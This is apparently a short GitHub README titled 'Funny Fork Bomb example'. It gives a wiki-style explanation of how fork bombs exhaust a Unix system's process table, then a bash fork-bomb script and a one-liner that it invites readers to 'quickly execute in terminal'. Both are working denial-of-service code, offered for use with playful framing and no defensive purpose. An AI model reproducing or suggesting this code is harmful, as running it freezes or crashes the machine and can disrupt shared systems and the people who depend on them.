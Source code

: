 #### Funny Fork Bomb example:

###### Wiki:
Fork bombs operate both by consuming CPU time in the process of forking, and by saturating the operating system's process table.A basic implementation of a fork bomb is an infinite loop that repeatedly launches new copies of itself.
In Unix-like operating systems, fork bombs are generally written to use the fork system call.As forked processes are also copies of the first program, once they resume execution from the next address at the frame pointer, they continue forking endlessly within their own copy of the same infinite loop; this has the effect of causing an exponential growth in processes. As modern Unix systems generally use a copy-on-write resource management technique when forking new processes, a fork bomb generally will not saturate such a system's memory.

##### Here is bash script:
```bash
#/usr/bin/env bash

bomb() { 
bomb|bomb &
}

for ((;;))
do 
  bomb
done
```
##### Or you can quickly execute in terminal:
```bash
$ gpt(){ gpt|gpt &} ; for ((;;));do gpt;done &
```


